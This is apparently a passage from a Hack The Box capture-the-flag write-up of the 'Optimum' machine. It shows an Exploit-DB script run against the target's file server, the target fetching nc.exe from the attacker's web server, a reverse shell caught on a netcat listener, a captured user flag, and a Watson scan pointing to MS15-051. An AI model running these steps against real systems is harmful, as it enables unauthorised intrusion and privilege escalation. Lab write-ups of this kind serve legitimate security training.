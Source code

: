   The python script 'windows/remote/39161.py' looks promising, lets try it out.

   - Host a webserver on port 80, containing nc.exe
   - Change the script's local IP and port
   - Execute!

   [root:/git/htb/optimum]# python 39161.py 10.10.10.8 80

   [root:/srv/pub-share]# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.8 - - [02/Mar/2021 10:39:29] "GET /nc.exe HTTP/1.1" 200 -
    10.10.10.8 - - [02/Mar/2021 10:39:29] "GET /nc.exe HTTP/1.1" 200 -
    10.10.10.8 - - [02/Mar/2021 10:39:29] "GET /nc.exe HTTP/1.1" 200 -
    10.10.10.8 - - [02/Mar/2021 10:39:29] "GET /nc.exe HTTP/1.1" 200 -

   [root:/git/htb/optimum]# rlwrap nc -lvnp 4499                                                                                     (master✱)
     listening on [any] 4499 ...
     connect to [10.10.14.8] from (UNKNOWN) [10.10.10.8] 49173
     Microsoft Windows [Version 6.3.9600]
     (c) 2013 Microsoft Corporation. All rights reserved.

     C:\Users\kostas\Desktop> type user.txt.txt
       d0c39409d7b994a9a1389ebf38ef5f73


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Run Watson exploit suggester.

C:\Users\kostas\Desktop> \\10.10.14.8\pub-share\WatsonNet4AnyCPU.exe
    __    __      _
   / / /\ \ \__ _| |_ ___  ___  _ __
   \ \/  \/ / _` | __/ __|/ _ \| '_ \
    \  /\  / (_| | |_\__ \ (_) | | | |
     \/  \/ \__,_|\__|___/\___/|_| |_|

                             v0.1

                    Sherlock sucks...
                     @_RastaMouse

   [*] OS Build number: 9600
   [*] CPU Address Width: 64
   [*] Process IntPtr Size: 8
   [*] Using Windows path: C:\WINDOWS\System32

    [*] Appears vulnerable to MS15-051
     [>] Description: An EoP exists due to improper object handling in the win32k.sys kernel mode driver.
     [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_051_client_copy_image.rb
     [>] Notes: None.
